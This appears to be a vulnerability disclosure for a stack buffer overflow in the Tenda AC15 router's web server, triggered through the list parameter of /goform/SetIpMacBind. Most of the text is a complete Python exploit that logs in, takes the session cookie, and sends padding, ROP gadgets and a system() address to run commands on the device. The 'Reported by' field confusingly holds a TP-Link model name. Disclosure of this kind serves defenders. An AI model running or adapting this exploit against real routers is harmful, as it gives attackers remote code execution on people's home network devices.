 Vendor of the products:　Tenda 

Reported by: 　　　　　     TP-Link TL-WR886N 3.0 1.0.1

Affected products:　　　AC15 V15.03.05.18_multi

# Overview
An issue was discovered on Tenda AC15 V15.03.05.18_multi device. There is a buffer overflow vulnerability in the router’s web server – httpd. While processing the **/goform/SetIpMacBind** list parameter for a post request, the value is directly used in a strcpy to a local variable placed on the stack, which overrides the return address of the function. The attackers can construct a payload to carry out arbitrary code attacks.

# Exp

    import requests
    from urllib import parse
    from pwn import *
    
    main_url = "http://172.16.211.18:20080"
    
    def login_success():
        global password
        url = main_url + "/login/Auth"
        headers = {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}
        data = {"username": "admin", "password": "ce80adc6ed1ab2b7f2c85b5fdcd8babc"}
        data = parse.urlencode(data)
    
        response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
        password = response.cookies.get_dict().get("password")
        if password is None:
            login_success()
        else:
            print(password)
    
    
    def poc():
        url = main_url + "/goform/SetIpMacBind"
    
        cmd = b'echo yab.....'
        libc_base = 0x40202000
        system_offset = 0x0005a270
        system_addr = libc_base + system_offset
        gadget1 = libc_base + 0x00018298
        gadget2 = libc_base + 0x00040cb8
    
        data = b'bindnum=1&list=' + b'A' * (428) + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd
        data = data.decode('latin1')
    
        headers = {'Cookie': 'password=' + password}
        response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
        print(response)
    
    
    if __name__ == "__main__":
        login_success()
        poc()


# Vul Details
## code in httpd
![avatar](img/code.png)
## Attack effect
![avatar](img/effect.png)